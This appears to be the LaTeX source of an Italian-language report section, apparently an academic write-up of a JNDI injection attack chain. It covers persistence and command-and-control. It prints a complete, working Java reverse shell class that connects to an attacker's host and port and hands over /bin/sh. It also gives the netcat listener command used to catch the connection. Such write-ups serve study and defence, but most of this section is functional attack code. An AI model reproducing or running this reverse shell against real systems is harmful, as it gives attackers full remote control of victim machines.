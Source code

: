 \documentclass[a4paper, 12pt]{article}
\begin{document}
L’obiettivo dell'attaccante è quello di mantenere l’accesso alla macchina (persistenza), per fare ciò è possibile creare una \textbf{backdoor shell}.
Tramite una ulteriore JNDI Injection si esegue il codice remoto di una classe Java che, collegandosi ad un server malevolo dell'attaccante, apre una reverse shell.
Questo exploit permette di ottenere il totale controllo della macchina vittima e può essere usato come base per lanciare ulteriori attacchi.

\begin{figure}
    \centering
    \begin{lstlisting}
    public class ReverseShell {
        public ReverseShell() throws Exception {
            String host = "__ip__";
            int port = Integer.parseInt("__port__");
            String cmd = "/bin/sh";
    
            Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
            Socket s = new Socket(host, port);
            InputStream pi = p.getInputStream(),
                    pe = p.getErrorStream(),
                    si = s.getInputStream();
            OutputStream po = p.getOutputStream(), so = s.getOutputStream();
    
            while (!s.isClosed()) {
                while (pi.available() > 0) {
                    so.write(pi.read());
                }
    
                while (pe.available() > 0) {
                    so.write(pe.read());
                }
    
                while (si.available() > 0) {
                    po.write(si.read());
                }
    
                so.flush();
                po.flush();
                Thread.sleep(50);
    
                try {
                    p.exitValue();
                    break;
                } catch (Exception e) {
                }
            }
    
            p.destroy();
            s.close();
        }
    }
\end{lstlisting}
    \caption{Revershe Shell - Codice Java}
    \label{fig:revshell}
\end{figure}

\subsubsection{Command and Control}
In questa fase viene stabilito un canale di comunicazione con un server controllato dall’attaccante. 
Tramite \textbf{netcat} viene avviato un listener in ascolto sulla porta 9001.
\begin{center}
    \verb!$ nc -lvnp 9001!
\end{center}
In questo modo il sever si mette in attesa di un collegamento da parte della macchina vittima.
\end{document}
